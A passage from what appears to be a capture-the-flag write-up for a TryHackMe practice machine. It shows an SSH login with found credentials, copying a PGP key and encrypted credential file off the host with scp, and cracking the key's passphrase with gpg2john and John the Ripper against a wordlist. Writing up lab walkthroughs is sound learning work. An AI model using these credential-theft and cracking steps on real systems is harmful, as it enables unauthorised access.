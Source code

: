 We can now use these credentials to login through SSH.
```
$ ssh skyfuck@10.10.106.51
The authenticity of host '10.10.106.51 (10.10.106.51)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.51' (ED25519) to the list of known hosts.
skyfuck@10.10.106.51's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```
Let's look around for useful files.
```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
We need to copy these files to our local machine. We can do this using `scp`.
```
$ scp skyfuck@10.10.106.51:/home/skyfuck/* /home/kunal/tryhackme/tomghost/.
skyfuck@10.10.106.51's password: 
credential.pgp                                                                                                                                                                                            100%  394     1.4KB/s   00:00    
tryhackme.asc  
```
Now using `gpg2john`, we can find the hash of the `tryhackme.asc` file.
```
$ gpg2john tryhackme.asc > asc_hash.txt

File tryhackme.asc
```
Let's now use John the Ripper to find the password.
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2023-11-13 20:44) 1.694g/s 1820p/s 1820c/s 1820C/s alexandru..trisha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Let's read the `tryhackme.asc` file using the password.
